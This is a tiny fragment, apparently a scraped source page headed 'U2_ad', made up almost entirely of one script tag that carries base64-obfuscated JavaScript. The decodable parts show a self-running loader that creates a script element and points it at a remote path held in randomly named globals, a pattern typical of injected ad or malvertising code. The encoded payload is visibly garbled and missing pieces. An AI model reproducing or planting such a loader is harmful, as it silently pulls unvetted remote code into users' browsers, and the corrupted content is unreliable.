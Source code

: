# U2_ad
<script src="data:text/javascript;base64,CiAgICAoZnVuY3Rpb24oKSB7CiAgICB2YXIgbmFtZSA9ICdfSHliV2Zkc3JYa2N4UlhxVCc7CiAgICBpZiAoIXdpbmRvdy5fSHliV2Zkc3JYa2N4UlhxVCkgewogICAgICAgIHdpbmRvdy5Zhc2NyaXB0JzsKICAgICAgICBhLnNyYyA9IHdpbmRvdy5fSHliV2Zkc3JYa2N4UlhxVC5SX1BBVEggKyBfSnNMVFA0ZEtZa3dxQ2Y2ZzsKICAgIHZhciBzID0gZG9jdW1lbnQuZ2V0RWxlbWVudHyZShhLCBzKQogICAgfSkoKTsKICAgIA=="></script>
